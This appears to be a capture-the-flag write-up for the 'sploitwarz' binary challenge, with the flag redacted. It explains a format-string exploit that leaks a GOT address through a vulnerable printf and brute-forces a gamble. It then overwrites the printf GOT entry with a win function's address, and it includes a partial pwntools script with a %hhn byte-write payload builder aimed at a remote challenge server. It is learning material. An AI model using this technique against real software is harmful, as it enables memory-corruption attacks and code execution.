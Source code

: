 ## sploitwarz

---

FLAG{REDACTED}

---

Combining my knowledge from the last two exploits, I write the address of the win function to the printf function in the global offset table after leaking an address exploiting a fmt string vulnerability.

How does this code work?

1. There's the function from formatrix that writes addresses to places in memory. Only it has been improved to take in the offset from the top of the stack
2. Going through the binary, I find that only one printf in the game is vulnerable to format string exploit. In `do_gamble` function where it prints out the user's name on winning the gamble.
3. Exploring the game, I find that the address of the GOT is the 149th element on the stack (Note, I don't need to select this one, there are other addresses at shallower depths, but why not). This makes the exploit (or my game name) `%x|`. The pipe is for easier extraction.
4. Winning the gamble
   1. Finding and editing the correct choice seems very hard without leaking data before, and getting the correct choice is the way to leak data. Infinite loop?
   2. Brute force is the best force. Since the gamble lets me spend 0.0000001 (basically a very low number) of btc, the odds of winning are very pretty good. Plus I think the odds favor the higher numbers, but I don't worry about it too much.
5. Once We are at the printf that leaks information, we can obtain the address of the GOT from it. Then calculate the address of the win function to use. Finally using the function from (1) to generate the payload.
6. Set the name as the new payload by changing the user's handle.
7. To execute the new payload, you need to win the gamble again, so bruteforce!
8. `cat flag`

Things to think about/Issues faced:

1. Finding the exploit: Unlike the last exploits, the entered text is not reflected back immediately, and there are some time and steps between the payload is entered and it takes effect. I took a while figuring this one out.
2. Reading/Writing: Because I read in so much data, (perhaps issues in buffering or the game) cause the output to be printed out multiple times. I fixed this one by cleaning the buffer regularly, which would remove any data that was not read in.

```
#!/usr/bin/python3
from pwn import *

def writeAddress(offset, where, what):
	win = p32(what)
	payload = b''
	payload += p32(where)
	payload += p32(where + 1)
	payload += p32(where + 2)
	payload += p32(where + 3)
	for i in range(4):
		ind = 3 - i
		byte = win[ind]
		count = ((byte - 16) + 256) % 256
		payload += f'%{count}x'.encode()
		payload += f'%{ind + offset}$hhn'.encode()
		if (i != 3):
			payload += f'%{256 - count}x'.encode()
	return payload

#p = process('./sploitwarz')
p = remote('plsdonthaq.me', 4004)
```